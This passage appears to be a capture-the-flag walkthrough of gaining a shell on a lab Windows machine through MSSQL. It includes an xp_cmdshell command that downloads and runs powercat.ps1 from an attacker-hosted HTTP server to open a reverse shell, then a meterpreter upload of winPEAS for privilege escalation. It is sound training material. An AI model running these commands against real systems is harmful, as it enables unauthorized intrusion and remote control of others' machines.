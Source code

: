 ### Using net/powercat reverse shell and python HTTP server

We can download [`powercat.ps1`](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) file on the victim machine by hosting it in a python HTTP server.

Start python HTTP server using:

```
python3 -m http.server 8000
```

Now setup a netcat listener

```awk
nc -vnlp 4444
```

Now on our mssqlclient we use:

```sql
xp_cmdshell "powershell -c cd C:\Users\Public; IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.28:8000/powercat.ps1\"); powercat -c 10.10.14.28 -p 4444 -e cmd;"
```

The client freezes but we get a shell on our netcat listener terminal:

```
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.129.228.29] 49680
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

If we try to enter the Administrator user's directory we can't from here:

```
C:\Users>cd Administrator
cd Administrator
Access is denied.
```

So we need to perform privilege escalation.&#x20;

### Vulnerability and CVE scanning with winpeas

We can use `winpeas` to find vulnerabilities or leaked credentials that can help us in privilege escalation.&#x20;

#### Using meterpreter reverse shell

Upload the `winPEASx64.exe` using upload options in the meterpreter:

```bash
meterpreter > upload winPEASx64.exe
```

```awk
[*] Uploading  : /home/fvalkyrie/winPEASx64.exe -> winPEASx64.exe
[*] Uploaded 1.93 MiB of 1.93 MiB (100.0%): /home/fvalkyrie/winPEASx64.exe -> winPEASx64.exe
[*] Completed  : /home/fvalkyrie/winPEASx64.exe -> winPEASx64.exe
```
